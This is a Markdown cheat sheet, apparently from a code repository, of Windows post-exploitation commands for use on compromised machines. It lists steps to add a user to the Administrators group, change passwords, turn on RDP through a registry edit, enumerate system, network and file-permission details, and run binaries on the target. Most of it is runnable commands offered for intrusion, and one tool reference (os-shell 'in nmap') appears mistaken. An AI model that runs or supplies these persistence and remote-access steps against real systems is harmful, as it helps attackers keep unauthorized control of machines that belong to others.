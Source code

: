 # Post Exploitation Cheat Sheet
This module will contain all Windows/DOS post exploitation items that I use on a daily basis.
## Current User Info
__1. Who am I, exactly?__
* `echo %username%`
* `whoami`
## Add Admin User
__1. Add the User:__
* `net user /add [username] [password]`

__2. Add the usedr to the Admin Group:__
* `net localgroup administrators [username] /add`

__3. Change a user's password__
* `net user USERNAME NEWPASS`

## Enable RDP (XP+)
This command will enable RDP on a server which the `reg` command is installed. You must have System access to do so, and RDP must be installed.

__1. To enable RDP (must be Windows XP or above as the `reg` command will be used.)__

* `reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f`

## System / Network Info
These commands will return any system or network information and should be done during post exploitation.
* `netstat -ano` OR JUST `netstat -an`
* `systeminfo` (XP+)
* `echo %PROCESSOR_ARCHITECTURE%`

## File System Info
These commands will return information about the  file system of the target Windows(R) server.

__1. To display permission/ownership information of a file or directory:__
* `icacls "C:\Documents and Settings\Administrator\Desktop\proof.txt`
* `dir /Q`

## Command Execution
These commands will execute commands or binaries on the compromised Windows(R) System.

__1. To run a binary on the FS of the compromised system from os-shell> in nmap:__

`start /max /d"C:\Program files\foo\" ba.exe -somearguments`
